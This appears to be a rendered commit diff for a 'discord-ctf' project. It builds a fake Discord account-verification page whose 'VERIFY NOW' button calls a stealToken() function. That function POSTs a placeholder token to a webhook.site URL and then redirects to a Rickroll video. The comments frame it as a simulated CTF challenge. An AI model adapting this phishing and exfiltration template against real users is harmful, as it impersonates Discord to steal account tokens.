

Before and after one commit to Someone-owner/discord-ctf, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (318-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,19 +1,49 @@
 <!DOCTYPE html>
 <html>
+<head>
+    <title>Discord Security Verification</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #36393f;
+            color: white;
+            text-align: center;
+            padding: 50px;
+        }
+        button {
+            background-color: #5865F2;
+            color: white;
+            padding: 15px 30px;
+            border: none;
+            border-radius: 5px;
+            font-size: 16px;
+            cursor: pointer;
+            margin-top: 20px;
+        }
+    </style>
+</head>
 <body>
-  <h1 style="text-align: center; margin-top: 50px;">Discord Security Check</h1>
-  <button onclick="stealToken()" style="display: block; margin: 0 auto; padding: 10px 20px; background: #5865F2; color: white; border: none; border-radius: 5px;">
-    Click to Verify Account
-  </button>
+    <h1>Discord Account Verification Required</h1>
+    <p>Click below to confirm your identity and secure your account:</p>
+
+    <button onclick="stealToken()">VERIFY NOW</button>
+
     <script>
         function stealToken() {
+            // Simulated token for CTF challenge
             const token = "CTF_TOKEN_123";
+
+            // Send token to your webhook (REPLACE WITH YOUR URL)
             fetch("https://webhook.site/53d25910-f8b8-4703-a049-29f65d48456c", {
                 method: "POST",
                 headers: { "Content-Type": "application/json" },
                 body: JSON.stringify({ token: token })
             });
-      alert("Verification failed. Contact support.");
+
+            // Rickroll redirect after 1 second
+            setTimeout(() => {
+                window.location.href = "https://youtu.be/dQw4w9WgXcQ";
+            }, 2000);
         }
     </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
